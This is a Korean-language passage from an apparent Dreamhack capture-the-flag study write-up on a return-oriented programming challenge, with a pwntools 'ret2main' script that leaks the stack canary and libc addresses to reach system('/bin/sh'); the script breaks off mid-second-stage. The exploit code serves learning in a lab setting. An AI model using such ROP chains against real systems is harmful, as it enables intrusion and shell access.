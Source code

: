 5. `read_got`가 변조(Overwrite)된 상태에서 `read('/bin/sh')`을 실행하도록 하면,`system('/bin/sh')`가 실행되므로 `rdi`에는 앞에서 입력한 `/bin/sh`이 위치하는 `read_got+0x8`의 주소를 대입하고, `ret` 가젯으로 `read_plt`를 호출하도록 하여 익스플로잇 마무리

<img width="536" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/4cb122c9-2905-48a5-bf6a-3335c53c839b">
<img width="537" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/d51a5160-7c4f-4a10-85c4-ba4fc5ce7288">

# ret2main 풀이
```
from pwn import *

context.arch = "amd64"
p = remote('host3.dreamhack.games', 13886)

e = ELF('./rop')
libc = ELF('./libc.so.6')

read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

read_system_offset = libc.symbols['read'] - libc.symbols['system']
read_binsh_offset = libc.symbols['read'] - list(libc.search(b'/bin/sh'))[0]

r = ROP(e)

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
ret = r.find_gadget(['ret'])[0]

p.sendafter(b'Buf: ', b'a'*0x39)
p.recvuntil(b'a'*0x39)
canary = b'\x00' + p.recvn(7)

payload = b'a'*0x38 + canary + b'a'*0x8

payload += p64(ret)

# first main

# write(1, read_got, ...)

payload += p64(pop_rdi) + p64(0x1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(write_plt)

# 여기서는 위와 달리 read_got를 읽어오고 받아온 값을 저장 후, 다시 위처럼 read 함수를 호출하여 저장한 입력값을 보내는 풀이가 아니기 때문에 system 콜을 직접적으로 하려면 main으로 다시 돌아가서 main 함수의 read 콜에 새로 입력을 해야함

payload += p64(main)

p.sendafter(b'Buf: ', payload)

read = p.recvn(6) + b'\x00'*0x2
system = u64(read) - read_system_offset
binsh = u64(read) - read_binsh_offset

# second main

payload = b'a'*0x38 + canary + b'a'*0x8

p.sendafter(b'Buf: ', payload)

```